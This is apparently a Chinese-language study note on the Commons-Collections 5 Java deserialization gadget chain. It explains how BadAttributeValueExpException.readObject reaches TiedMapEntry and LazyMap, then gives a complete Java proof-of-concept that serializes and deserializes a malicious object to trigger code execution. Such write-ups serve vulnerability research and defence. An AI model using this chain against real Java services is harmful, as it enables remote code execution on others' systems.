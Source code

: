- [CC5](#cc5)
  - [BadAttributeValueExpException#readObject](#badattributevalueexpexceptionreadobject)
  - [TiedMapEntry#getValue](#tiedmapentrygetvalue)
  - [利用思路](#利用思路)
    - [POC构造](#poc构造)
# CC5
条件:  
* commons-collections <= 3.2.1 or 4.0 
* jdk8 >= 8u76 or jdk6 >= 6u17 
* 没开启security mannager 

## BadAttributeValueExpException#readObject
BadAttributeValueExpException类是一个异常处理类,其最终继承于Throwable类,其中实现了序列化接口,其readObject()方法如下:
![](2021-12-29-12-53-55.png)
在获取到输入对象后,取得其该对象`val`的字段值,当该字段值类型不是String类型且getSecurityManager为空,即未开启getSecurityManager时则会调用该字段对象的`toString`方法.
## TiedMapEntry#getValue
而在`TiedMapEntry`类中有一个`toString`方法如下  
![](2021-12-29-12-59-08.png)
其中调用了该类的`getValue`方法,而在该方法中又调用了`this.map.get(this.key)`方法,相关代码如下  
![](2021-12-29-13-00-14.png)
该类构造函数如下  
![](2021-12-29-13-01-27.png)
## 利用思路
当我们控制TiedMapEntry的map为LazyMap,则在其`toString`方法中会触发LazyMap.get()方法,也就是进入了CC1中的`Transformer`利用链,而要调用`toString`方法则要利用`BadAttributeValueExpException#readObject`作为入口
### POC构造
在idea调试时,idea会自动调用变量的`toString`方法,导致中途会不停的弹计算器,需要在配置中把自动toString调用关掉.  

因为在生成`BadAttributeValueExpExceptio`类时构造函数会触发其map的toString方法,导致本地先执行了命令后异常退出,所以要先用无参构造函数生成`BadAttributeValueExpExceptio`类后再用反射去修改其val属性为LazyMap即可.  

完整POC
```java
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[] {getTemplate()})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap hashMap = new HashMap();
        hashMap.put("s","1");
        LazyMap lazyMap = (LazyMap) LazyMap.decorate(hashMap,chainedTransformer);
        BadAttributeValueExpException Badobj = new BadAttributeValueExpException(null);
        setFieldValue(Badobj,"val",new TiedMapEntry(lazyMap,"test"));
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(Badobj);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
    }
```